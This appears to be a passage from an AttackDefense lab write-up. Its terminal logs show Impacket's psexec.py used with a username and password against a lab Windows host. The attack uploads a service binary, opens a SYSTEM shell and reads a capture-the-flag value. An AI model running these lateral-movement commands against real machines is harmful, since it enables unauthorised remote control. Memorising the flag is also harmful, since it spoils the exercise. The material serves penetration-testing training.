 ```
Target IP Address : 10.0.26.67
10.10.16.2
```

```
root@attackdefense:~# psexec.py sysadmin:samantha@10.0.26.67 cmd.exe
Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.0.26.67.....
[-] share 'admin' is not writable.
[-] share 'ADMIN$' is not writable.
[-] share 'C' is not writable.
[-] share 'C$' is not writable.
[*] Found writable share public
[*] Uploading file xkBzkqgM.exe
[*] Opening SVCManager on 10.0.26.67.....
[-] Error opening SVCManager on 10.0.26.67.....
[-] Error performing the installation, cleaning up: Unable to open SVCManager
```

```
root@attackdefense:~# /usr/local/bin/psexec.py administrator@10.0.26.67 cmd.exe
Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.0.26.67.....
[*] Found writable share admin
[*] Uploading file aGOHBmPw.exe
[*] Opening SVCManager on 10.0.26.67.....
[*] Creating service pMEQ on 10.0.26.67.....
[*] Starting service pMEQ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>cd c:\

c:\>dir
 Volume in drive C has no label.
 Volume Serial Number is 3E75-72A0

 Directory of c:\

09/13/2022  01:50 AM    <DIR>          admin
09/25/2020  06:41 AM                32 flag.txt
02/23/2018  11:06 AM    <DIR>          PerfLogs
12/13/2017  09:00 PM    <DIR>          Program Files
09/25/2020  06:43 AM    <DIR>          Program Files (x86)
09/25/2020  06:42 AM    <DIR>          public
09/25/2020  06:15 AM    <DIR>          Users
09/25/2020  06:14 AM    <DIR>          Windows
               1 File(s)             32 bytes
               7 Dir(s)  16,230,625,280 bytes free

c:\>type flag.txt
e0da81a9cd42b261bc9b90d15f780433
```
